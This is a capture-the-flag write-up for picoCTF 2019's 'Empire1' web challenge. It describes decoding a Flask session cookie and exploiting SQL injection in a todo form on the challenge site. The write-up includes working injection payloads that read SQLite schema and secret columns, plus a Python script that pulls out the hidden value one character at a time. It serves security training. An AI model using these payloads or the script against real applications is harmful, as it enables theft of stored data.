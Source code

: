 <h3>Challenge #10 Empire1</h3>

<blockquote><i>Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/27357/ (link) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:27357</i></blockquote>  

<p>In this challenge we have a site with login and register form.</p>  

<p>First things first I inspected the page to see if there is any hidden login logic in some form of script,which wasn't the case.After creating a user and logging in I've caught one thing.The session cookie looked quite odd: </p>

```javascript
session=.eJwlj0FqQzEMRO_idRayJEt2LvORZYmGQAv_J6vSu8fQWb95zPyWI8-4vsr9db7jVo7HKveCHTAqM7r6cFhdIeoO2-i0eA6UEUnihrMFk5upSGJl9UWQMmf20Rc1arAWmyaw6OC6Teg5g5XSWptrRjRMbyYA5hvZEiq34teZx-vnGd97jxNn776BUWVgtypNOhFNNVimwO48XXbvfcX5f4LK3wdBOT5K.XmPcqA.dDQLm8QVYSADCJMay9b9Rh3dpc0
```

<p>So I had to determine in what framework the server was written. From previous picoCTF's i guessed with Flask. So I've tried decoding the cookie. And I was right since this JSON object was result of it.</p>  

```javascript  
{
    "_fresh": true,
    "_id": "2802e1442c7c9c0d870e11114a983d4b9269ef36ca2b5e43caa766f2147cd30f6bbf898d35350dd4a7f04679418702cfbe473fa55bdbee52fc5a600ac7942143",
    "csrf_token": "c34f88c0ac916928a16568333b7a0da704cc4bc6",
    "user_id": "3"
}  
```  
<p>So we do see that user_id value is 3.</p><br>
<p>Have in mind<quote>Flask, by default, uses the URL-safe signed serializer "itsdangerous" to encode its client-side session cookies. A Flask app uses a secret key to sign the session cookie so that the client can't modify it.</quote><br>  
Which means if we could spoof the secret key we would be able to modify the cookie by swapping the value to 1 which would be admin value , and get the session cookie for admin.</p>  

<p>So I've registered account with some random name and then you can see the multiple pages as a user.You see Employees listing,Add todo ,Your todos.  
Empoyees listing was interesting because it looks like a typical SQL table , 3 columns with fields Employee id, Username, Name.<br> Then in Add Todo we have a input field where we can input some text and that is going into list on the page Your Todos.
<br><br>
First I've tried testing the input simply with providing <b>ASCII alphabet</b> you can either google or just make this one liner in python :</p><br>
```python

"".join(chr(x) for x in range(32,127))

```
<p>That instantly crashed and gave me internal server 500 error.<br>After that I tried all upper and lowercase letters from A-Z. Which didn't show any strange behaviour. However when I tried single quotes ' and other math logical operators and some of them crashed again.  
<br>
I've tried simple classic SQL injection for authentication OR 1 '=' 1 which weirdly evaluated to 0. <br>
That was very weird and i had to realize what is being filtered out.</p>  

<p>I've tried doing '+ 12 +' which evaluated into 12.So i've tried simple expression '+ 1 + 2  +' which evaluated into 3. Which was pretty nice.<br> I was getting somewhere with that.</p>   

<p>After that I tried taking it step further and making query so i tried '+ SELECT +' and that crashed. So i realized that those words must be filtered and i wanted to try query inside of parantheses . <br>  
So i've tried '+ (SELECT 1) +' and that evaluated to 1. From that point i determined that i can do <b>queries</b>.</p>  

<p>Next I would have to enumerate what engine of sql is running on so I can focus on injecting payload for that type of SQL. There are various functions for certain type of engine to get the version info. The one that worked was '+ <code>sqlite_version()</code> +' that returned me the 3.22 which confirmed it is SQLite engine. </p> 

<p>Now we have to try to get info of our database , specifically table and columns etc.</p>

<p>There are some interesting methods that could give you information that you are looking for, like:PRAGMA functions, 
sqlite_master as main schema holder.</p> 

<p>So first thing i wanted to know is the name of the table.</p>  
<code> '+ (SELECT hex(name) FROM sqlite_master) +'</code>
<br>
<p>With this you can extract table name by using hex value for name parameter,this resulted in 75736572 which is <b>"user"</b>. <br>Good so far we have name of our table.
<br>
After that i wanted to to extract the name of columns , most likely trying to find something like password or similar column name.</p>  

<br>  
<p>The straight away i tried checking if there is column with name of password or secret by doing :</p>  
<br>
<code>'+(SELECT 1 FROM PRAGMA_TABLE_INFO("user") WHERE name="secret") +'</code><br>  
<p>Which actually returned 1 (password returned 0) and that was pretty positive for knowing that the column with name secret exist which should mean that should be column for user passwords.Now remember the part of the hint <q><i>"Can you first find the secret code they assigned to you?</i></q><br>Let's try that : <br>  
<code> '+(select hex(secret) from user where name="asd") +'</code> </p> 
<br>  
Not surprisingly that returned us 7069636 converted to ASCII (as 7069636)  = "pic" <br>  
Which seems like the part of the flag because we know that flag is starting with picoCTF{...}  
Very interesting..  

But there is one more detail in here.Starting with the question why are we only getting 3 letters, flag is usually longer.<br>  
2 conclusions arrives :  
<li>characters are getting truncuted a-f as hexadecimal digit</li>
<li>number is 32 bit integer truncated</li>

So how do we work around this? Substring for number truncation,we get only 1 digit number at a time that means it is truncated , 2 digit number it's not truncated,only above 8 digit number gets truncated(we got only 7 digits from our secret).  
So we are definitely going to make a script for generating requests and collecting the output digits.  
<br>  
Our request payload should have query like this :<br>
<code>'+ (SELECT hex(substr(secret,0,1))  FROM user where id="3") +'</code>  

<p>The idea is to make request till i reach reach number 0 as an output which would indicate that the value ends there. Once i collect all the hexadecimal digits,the single digits should be compared with (a,b,c,d,e,f) and one of those could give me missing part of the whole flag.</p>

<p>So I've made a <a href="https://github.com/DejanJS/picoCTF-Writeups-2019/blob/master/10.Empire1/script.py">script</a> that will do this for us.</p>

<p>Let's explain what is going on in this script:</p>  

You are going to need some scraping library , I've used Beautiful Soup,since response that we need is being generated inside of the other page and csrf token is binded to input field, so you have to keep session alive.  

```python  

import requests
import json
from bs4 import BeautifulSoup
import string

i = 0
result = []
a_to_f = [w for w in string.ascii_lowercase[:6]]
my_session = requests.Session()
register = my_session.get('https://2019shell1.picoctf.com/problem/27357/login')
soup = BeautifulSoup(register.text,'html.parser')
csrf = soup.find(id="csrf_token").get('value')

login = my_session.post('https://2019shell1.picoctf.com/problem/27357/login',data={'csrf_token':csrf,'username':'e','password':123})
item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
soup2 = BeautifulSoup(item_list.text,'html.parser')
items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]  
```  

After that we have to post our data with our sql injection query and collect results of our response : <br>  
```python  
while True:
  i = i + 1
  my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT hex(substr(secret,{i},1))  FROM user where id='3') +'"})
  item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
  soup2 = BeautifulSoup(item_list.text,'html.parser')
  items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]
  if '0' in items:
    #pop 0
    items.pop()
    result.extend(items)
    break  
```  

At the end we have to go through results and loop over possible values of hexadecimals digits , but the best way is to make post once again by substringing and comparing each letter that we already got other possible letters as hexadecimals that we got(which means if we make something like <code>'+ (SELECT (substr(secret,4,1)='o') FROM user where id='3') </code><br>  ,for example)
Response for correct letter is going to be 1 and 0 for non existent .  
```python  
if len(result) > 0:
    for idx,res in enumerate(result):
        if len(res) == 1 and res != "0":
            result[idx] = {'hex':res,'possible_values':[bytearray.fromhex(res + ch).decode() for ch in a_to_f]}
            for k in result[idx]["possible_values"]:
              print(f"Testing {idx} for {k}...")
              my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT (substr(secret,{idx+1},1)='{k}')  FROM user where id='3') +'"})
              item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
              soup2 = BeautifulSoup(item_list.text,'html.parser')
              item = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')][-1]
              print("ITEM : " ,item)
              if item == '1':
                result[idx] = k
                break
        else:
           result[idx] = bytearray.fromhex(res).decode()


print('FLAG : ',"".join(result))  
```  

And we get the flag : <br>
<code><b>picoCTF{wh00t_it_a_sql_inject9899be1a}</b></code>